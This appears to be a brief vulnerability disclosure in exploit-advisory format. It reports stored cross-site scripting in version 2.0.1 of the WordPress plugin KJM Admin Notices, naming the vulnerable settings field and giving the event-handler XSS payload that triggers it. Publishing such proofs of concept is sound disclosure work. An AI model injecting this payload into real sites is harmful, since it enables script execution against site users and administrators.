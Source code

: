 # Exploit Title: WrodPress Plugin KJM Admin Notices——Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/kjm-admin-notices/
# Version :  V 2.0.1
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Settings》KJM Admin Notices 》Allow Role or Capability to Edit ,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image](https://github.com/BigTiger2020/word-press/blob/main/KJM%20Admin%20Notices.gif)  
